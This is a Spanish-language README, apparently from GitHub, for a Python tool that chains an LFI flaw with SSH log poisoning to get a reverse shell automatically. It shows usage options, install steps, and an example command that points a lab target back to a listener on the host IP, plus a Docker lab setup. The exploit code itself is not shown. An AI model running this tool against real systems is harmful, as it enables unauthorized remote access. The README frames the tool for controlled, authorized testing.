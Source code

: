 # Log Poisoning SSH → Automated Reverse Shell

[Herramienta](<autopoisonSSH.py>) escrita en **python** que nos permite obtener una **Reverse Shell** de manera automatizada gracias al envenenamiento de los logs relacionados con **SSH** como lo pueden ser el **auth.loh** o **btmp** a través de un **LFI** (Local File Inclusion).

Las opciones disponibles son las siguientes:

```
usage: autoposionSSH.py [-h] -u TARGET_URL -pm TARGET_PARAM -t-ip TARGET_IP -h-ip HOST_IP [-p TARGET_PORT] [-p-ssh TARGET_SSH_PORT] [-l LISTEN_PORT]

☠️ SSH Log Poisoning with LFI → Automated Reverse Shell ☠️

ej: python3 autopoison.py -u http://172.17.0.2/vuln.php -pm file -t-ip 172.17.0.1 -h-ip 172.17.0.2

options:
  -h, --help                                 show this help message and exit
  -u, --target-url          TARGET_URL       Target web url with PHP vulnerable file - ej: http://172.17.0.2/vuln.php
  -pm, --target-param       TARGET_PARAM     Target parameter with LFI capability - ej: file
  -t-ip, --target-ip        TARGET_IP        Target IP - ej: 172.17.0.2
  -h-ip, --host-ip          HOST_IP          Host IP - ej: 172.17.0.1
   
  -p, --target-port         TARGET_PORT      Target http port                                                         (default =   80)
  -p-ssh, --target-ssh-port TARGET_SSH_PORT  Target ssh port                                                          (default =   22)
  -l, --listen-port         LISTEN_PORT      Listen port                                                              (default = 4444)
```

---
## ¿Por que usar este Proyecto?

En el caso de que queramos explotar un **Log Poisoning** de la manera tradicional nos encontraremos con el inconveniente que vemos en la captura de pantalla por lo que con el uso de este script evitaremos dicho incovenintente gracias a la librería **paramiko** de **python**.

![Pasted image 20240806161520](https://github.com/user-attachments/assets/73c86309-aaa0-442f-afe7-33b87c10b374)

---
## Descarga

Nos clonamos el repositorio de la siguiente forma:
```bash
git clone https://github.com/Trr0r/autopoisonSSH
cd autopoisonSSH
```

Instalamos las librerías necesarias gracias a **pip3**:
```bash
pip3 install -r requirements.txt
```

---
## Uso

En primer lugar debemos detecar la ruta donde se acontecede el **LFI**:

![Pasted image 20240806161403](https://github.com/user-attachments/assets/9238bfd1-c0f2-4eef-abbf-6729aa0457ca)

En segundo y último lugar ejecutaremos el script pasandole los parámetros necesarios tal y como vemos a continuación:

```shell
python3 autopoisonSSH.py -u http://172.17.0.2/vuln.php -pm file -t-ip 172.17.0.1 -h-ip 172.17.0.2
```

![Pasted image 20241226190954](https://github.com/user-attachments/assets/756a9fed-e7e5-4718-95a6-3975a1e77ca8)

---
## Puesta en Práctica
[Dockerfile](Dockerfile)

docker build -t logpoisoning_image .
docker run -dit --name ssh_logpoisoning logpoisoning_image

---
### Advertencia legal

> [!WARNING]
> Este software está destinado solo para uso personal y debe utilizarse únicamente en entornos controlados y con autorización previa. El empleo de esta herramienta en sistemas o redes sin la debida autorización puede ser ilegal y contravenir políticas de seguridad. El desarrollador no se hace responsable de daños, pérdidas o consecuencias resultantes de su uso inapropiado o no autorizado. Antes de utilizar esta herramienta, asegúrate de cumplir con todas las leyes y regulaciones locales pertinentes.
